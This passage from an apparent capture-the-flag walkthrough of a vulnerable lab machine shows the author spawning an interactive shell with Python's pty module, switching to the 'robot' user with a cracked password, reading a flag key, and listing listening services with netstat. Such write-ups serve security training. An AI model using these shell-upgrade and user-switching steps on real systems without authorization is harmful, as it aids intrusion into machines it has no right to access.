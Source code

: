 ![robot_hash](/images/robot_decrypted_hash.png)

In order to change to robot user I had to launch an interactive shell, one solution was to use pty python module, python is installed by default on most linux distributions.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su - robot              
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ cat ke*
cat ke*
822c73956184f694993bede3eb39f959
$ 
```

Second key found: `822c73956184f694993bede3eb39f959`

One step closer to pwn this box. At this point I started to pock arround. I found those services running:

```
$ netstat -lnp
netstat -lnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:2812          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
udp        0      0 0.0.0.0:13947           0.0.0.0:*                           -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               
udp6       0      0 :::49019                :::*                                -               
...
``` 
